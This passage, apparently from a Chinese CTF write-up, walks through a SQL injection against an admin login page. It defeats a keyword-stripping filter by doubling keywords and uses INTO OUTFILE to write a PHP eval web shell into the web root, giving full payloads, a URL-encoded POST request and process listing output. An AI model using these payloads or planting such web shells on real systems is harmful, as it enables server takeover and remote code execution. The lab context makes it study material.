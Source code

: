 构造 SQL

```
# select xxx into outfile xxx
# &lt;?php eval($_REQUEST['m']);?&gt;

admin'/**/uni union on/**/seselectlect/**/null,null,null,null,0x3c3f706870206576616c28245f524551554553545b276d275d293b3f3e/**/in in to/**/outoutfilefile/**/'/var/www/html/upload/miao.php'#
```

**（咱也不知道为啥 `0x` 没被过滤为空，双写 `0x` 发现并没有被删除反而 SQL 执行报错了**

**Payload:**

```
POST /admin/login.php?action=ck_login HTTP/1.1

user=admin%27%2F%2A%2A%2Funi%20union%20on%2F%2A%2A%2Fseselectlect%2F%2A%2A%2Fnull%2Cnull%2Cnull%2Cnull%2C0x3c3f706870206576616c28245f524551554553545b276d275d293b3f3e%2F%2A%2A%2Fin%20in%20to%2F%2A%2A%2Foutoutfilefile%2F%2A%2A%2F%27%2Fvar%2Fwww%2Fhtml%2Fupload%2Fmiao%2Ephp%27%23&amp;password=miao&amp;code=&amp;submit=true&amp;submit.x=43&amp;submit.y=24

```

当然也可以用 `char` 函数写入木马。

```
admin'/**/uni union on/**/seselectlect/**/null,null,null,null,char(60,63,112,104,112,32,101,118,97,108,40,36,95,82,69,81,85,69,83,84,91,39,109,39,93,41,59,63,62)/**/in in to/**/outoutfilefile/**/'/var/www/html/upload/miao.php'#
```

进去发现果然 MySQL 就是 root 用户起来的，于是就能写入文件。

而 PHP 运行在 `www-data` 用户，`/var/www/html` 目录是给 `www-data` 用户了，但子目录没递归变更属主也没给写入权限就离谱。

```
$ ps -ef
PID   USER     TIME  COMMAND
   1 root      0:07 /bin/sh /usr/local/bin/docker-php-entrypoint
   10 root      0:21 /usr/bin/mysqld --user=root --skip-name-resolve --skip-networking=0
   54 root      0:02 php-fpm: master process (/usr/local/etc/php-fpm.conf)
   60 root      0:00 nginx: master process nginx
   61 nginx     0:00 nginx: worker process
   62 www-data  0:00 php-fpm: pool www
   63 www-data  0:01 php-fpm: pool www
19798 root      0:00 sleep 5s
19799 www-data  0:00 ps -ef
```

也有可能预期解就只有这条路可走吧。

[![](https://p4.ssl.qhimg.com/t011f6d0c29421026f7.png)](https://p4.ssl.qhimg.com/t011f6d0c29421026f7.png)

[![](https://p4.ssl.qhimg.com/t0196a2400250eac5ab.png)](https://p4.ssl.qhimg.com/t0196a2400250eac5ab.png)
